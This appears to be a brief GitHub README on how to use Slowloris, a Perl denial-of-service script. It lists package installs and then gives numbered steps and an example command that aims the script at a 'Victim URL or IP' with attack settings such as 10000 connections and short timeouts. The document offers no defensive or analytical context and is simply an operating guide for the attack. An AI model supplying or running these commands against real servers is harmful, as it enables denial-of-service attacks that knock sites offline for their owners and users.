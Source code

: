 # How use Slowloris

## Requirements:

- sudo apt-get update  
- sudo apt-get install perl
- sudo apt-get install libwww-mechanize-shell-perl
- sudo apt-get install perl-mechanize


1. Download slowloris.pl
2. Open Terminal
3. cd /thePathToYourSlowloris.plFile
4. ./slowloris.pl
5. perl slowloris.pl -dns (Victim URL or IP) -options

**Done!**

Laera Loris

## A Litle example ...
perl slowloris.pl -dns 123.456.789.123 -port 80 -timeout 5 -num 10000 -tcpto 1
